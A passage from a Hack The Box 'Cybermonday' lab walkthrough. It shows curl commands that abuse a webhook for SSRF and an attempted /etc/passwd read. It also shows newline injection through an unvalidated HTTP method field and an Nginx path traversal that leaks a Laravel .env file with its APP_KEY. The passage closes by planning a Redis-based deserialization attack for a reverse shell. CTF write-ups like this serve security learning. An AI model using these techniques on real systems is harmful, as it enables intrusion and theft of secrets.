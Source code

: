 # HTB Cybermonday - Obtaining More Info

[Initial Enumeration](1-initial-enumeration)
[Webhook API Admin Access](2-webhook-api-admin)
[**Obtaining More Info**](3-obtaining-more-info)
[Gaining a Foothold](4-gaining-a-foothold)
[Where to Now?](5-where-to-now)
[Reading the Source](6-reading-the-source)
[Composing Root Access](7-composing-root-access)

Now that we have the ability to make the web server send requests for us, the question is what to do with it. The first thing to try would be to get files on the system:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make HTTP requests, the use right now seems limited. Let's use a `netcat` listener and send some requests to see what info the webhook is sending.
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on Laravel we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an Nginx proxy server, which can often be misconfigured to allow for path traversal. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used `gobuster` when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the Redis server and MySQL server this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much simpler protocol that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of sessions. These sessions will be stored in the Redis server, so if we can find a way to inject a PHP deserialization attack payload into the Redis server, we could potentially have a way to perform RCE and gain a reverse shell.

Next: [Gaining a Foothold](4-gaining-a-foothold)